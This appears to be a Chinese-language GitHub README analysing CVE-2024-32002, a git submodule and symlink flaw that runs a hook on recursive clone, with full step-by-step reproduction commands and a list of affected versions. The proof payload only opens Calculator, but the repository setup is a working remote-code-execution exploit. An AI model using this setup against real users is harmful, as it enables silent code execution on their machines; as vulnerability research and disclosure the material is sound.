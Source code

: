 # CVE-2024-32002
## 漏洞原理：
1. git clone操作完之后会触发post-checkout钩子，但是该钩子位于.git/hooks/post-checkout无法控制
2. 子模块能够通过设置path路径来向主仓库任意位置写入文件，而主仓库的.git/modules/{子模块name}/hooks/存放了子仓库的钩子文件，即我们可以通过子模块将主仓库用来记录子模块的.git下的目录进行hooks钩子写入
3. 出现问题：直接将.git作为子模块路径写入会push不到远程仓库（.git目录不会传到仓库去）
4. 解决方案：使用软链接将.git目录给链接出来，然后向该软链接写入hook钩子，并且子模块路径必须要和软链接路径不一致，该问题可以通过mac和windows对文件名大小写不敏感进行绕过
5. 又出现问题：直接写入该钩子不会触发rce，原因是主仓库目录下的link软链接和子模块路径LINK冲突，导致在clone主仓库的时候就以及将软链接覆盖掉了导致后续没有在软链接对应的目录下写文件而是在link实际目录下写入的hook文件
6. 解决方法：将子模块名分割成两个路径，即link和LINK/{任意目录名}，这样就能解决覆盖问题，至于多出来的这个{任意目录名}则可以直接在子模块path后面加上就能正确对应
## 漏洞复现
```
1. 创建子模块仓库：（https://github.com/pysnow1/hook）
git init hook
mkdir -p pysnow/hooks
echo "#!/bin/bash\nopen -a Calculator.app" > pysnow/hooks/post-checkout
git add pysnow/hooks/post-checkout
git commit -m "init hook"
git remote add origin git@github.com:pysnow1/hook.git
git push -u origin main

2. 创建rce触发仓库：（https://github.com/pysnow1/gitrce）
git init gitrce
ln -s .git l
git add l
git commit -m "init link"
git remote add origin git@github.com:pysnow1/gitrce.git
git push -u origin main
rm -rf l

git submodule add --name predir/pysnow https://github.com/pysnow1/hook L/modules/predir
git commit -m "init submodule"
git push

3. 触发漏洞：
git clone --recursive https://github.com/pysnow1/gitrce
```
## 漏洞影响版本
```
affected at = 2.45.0
affected at = 2.44.0
affected at >= 2.43.0, < 2.43.4
affected at >= 2.42.0, < 2.42.2
affected at = 2.41.0
affected at >= 2.40.0, < 2.40.2
affected at < 2.39.4
```
